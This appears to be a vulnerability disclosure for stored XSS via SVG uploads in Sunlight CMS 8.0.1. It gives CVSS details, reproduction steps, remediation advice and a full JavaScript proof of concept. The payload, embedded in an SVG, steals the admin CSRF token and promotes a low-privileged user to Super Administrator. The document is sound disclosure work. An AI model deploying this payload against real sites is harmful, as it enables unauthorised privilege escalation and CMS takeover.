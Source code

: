 # Title
Stored Cross-Site Scripting (XSS) in SVG image file uploaded in File Manager in Sunlight CMS 8.0.1 (https://github.com/sunlight-cms/sunlight-cms)

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can upload files in the File Manager, is able to upload an SVG file with malicious Javascript code. After an Administrator or Super Administrator clicks and opens the image, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and adde it to the group 'Editors'.
2. The user 'editor1' uploads a malicious SVG file.
3. Access the image using the File Manager as a Super Administrator to execute the malicious code in the SVG image.
4. User 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can upload files in the File Manager, can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize SVG image files by removing scripts before rendering or convert SVG image files to safer formats like PNG and JPG.

# Proof of Concept code
Create a valid SVG image file and then add the following code:

```js
<script type="text/javascript">
	var csrf_token;
	var xhrGET_users_edit = new XMLHttpRequest(); 
	xhrGET_users_edit.responseType = "document"; 
	xhrGET_users_edit.onreadystatechange = function() {	
		if (this.readyState == 4 &amp;&amp; this.status == 200) {
			var doc = this.responseXML ;
			csrf_token = doc.getElementsByName("_security_token")[0].value;		
			var xhr = new XMLHttpRequest();
			xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&amp;id=editor1", true);
			xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
			xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
			xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
			xhr.withCredentials = true;
			var body = "username=editor1&amp;publicname=editor1&amp;email=editor1%40test.tk&amp;password=&amp;group_id=1&amp;wysiwyg=1&amp;public=1&amp;note=&amp;_security_token="+csrf_token;
			var aBody = new Uint8Array(body.length);
			for (var i = 0; i &lt; aBody.length ; i++)
				aBody[i] = body.charCodeAt(i); 
			xhr.send(new Blob([aBody]));
		}
	};
	xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&amp;id=editor1", true);
	xhrGET_users_edit.send();
</script>
```
